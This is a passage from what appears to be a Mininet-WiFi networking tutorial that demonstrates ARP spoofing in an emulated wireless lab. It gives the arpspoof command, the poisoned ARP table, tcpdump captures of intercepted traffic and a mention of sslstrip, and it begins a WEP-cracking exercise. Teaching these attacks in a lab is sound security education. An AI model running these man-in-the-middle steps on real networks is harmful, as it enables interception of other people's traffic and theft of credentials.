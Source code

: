 Next, run _arpspoof_ on the **sta2** terminal, as follows. _If you do not have `arpspoof`, install it using the sudo apt install `dsniff` command.

```
    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

The command described above induces 10.0.0.1, which is the victim, to think that 10.0.0.2 is now its default gateway. After issuing the command, we need to wait for a few seconds, then check **sta1**'s ARP table again.

```
    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Here, we can notice that the MAC address of the default gateway is no longer the same as the one previously obtained.


Now, we will do a new _ping_ from **sta1** to 8.8.8.8 while using _tcpdump_ on the **sta2** terminal to confirm that **sta2** is receiving traffic data sent by the victim.

```
    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
    mininet-wifi> sta1 ping -c10 8.8.8.8
```

After **sta1** sends a few packets, you will be able to notice that **sta2** received them, since **sta1** was duped into perceiving **sta2** as the correct default gateway.


Now **sta2**, the attacker, can use even simple tools like _sslstrip_ to perform attacks via the HTTPS (_Hyper Text Transfer Protocol Secure_) protocol. 


It is also worth mentioning that this type of attack can be avoided by using tools such as _ArpON_ (ARP handler inspection).


#### Cracking WEP keys
Requirements: _airodump-ng_, _aircrack-ng_

First of all you need to identify the network topology that will be generated by <_extras/wep.py_>.

So, let us run <_wep.py_>:
```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/extras/wep.py
```
